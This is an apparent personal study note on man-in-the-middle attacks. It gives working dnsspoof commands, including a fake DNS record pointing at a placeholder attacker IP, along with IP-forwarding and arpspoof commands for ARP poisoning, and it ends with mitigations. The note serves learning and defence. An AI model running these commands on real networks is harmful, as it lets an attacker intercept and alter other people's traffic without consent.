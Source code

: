 ```yaml
---
{"dg-publish":true,"permalink":"/mitm-attack/","hide":true}
---
```


- Man in the middle
- Attacker site between the target and the server
- Can change the info
- Sniffing can be used
- Relatively simple to carry out if the two parties do **not confirm the authenticity and integrity** of each message.
- Affect **cleartext protocols**

![Pasted image 20230908214558.png](/img/user/attachments/Pasted%20image%2020230908214558.png)

- Set [[Keylogger\|Keylogger]]
- Get browser info
- Screenshots
- Delete certs
- [[backdoor\|Backdoor]]
# DNS poisoning
Create a file to emulate DNS record
```shell
echo "ATTAQUER_IP *.sportsfoo.com" > dns
```

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">




```shell
dnsspoof -i eth1 -f dns
```

</div></div>


# ARP poisoning
```shell
echo 1 > /proc/sys/net/ipv4/ip forward
```

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- [[MITM attack\|MITM attack]]

| Option                                                                   | Description                                                                   |
| ------------------------------------------------------------------------ | ----------------------------------------------------------------------------- |
| `arpspoof -i interface -t IP1 IP2`<br>`arpspoof -i interface -t IP2 IP1` | IP1 is the address of the access point or gateway<br>IP2 is the target system |


</div></div>


## Cain & Abel
- Scan MAC adress
- New ARP Poison Routing
- It can be used to monitoring the traffic between two systems and detect this type of attacks
## Tools
- [Ettercap](https://www.ettercap-project.org)
- [Bettercap](https://www.bettercap.org)
# Mitigation
- Proper authentication along with encryption or signing of the exchanged messages.
- With the help of [[PKI\|PKI]] and trusted root certificates, [[TLS\|TLS]] protects from [[MITM attack\|MITM attack]] .
- Set static arp tables
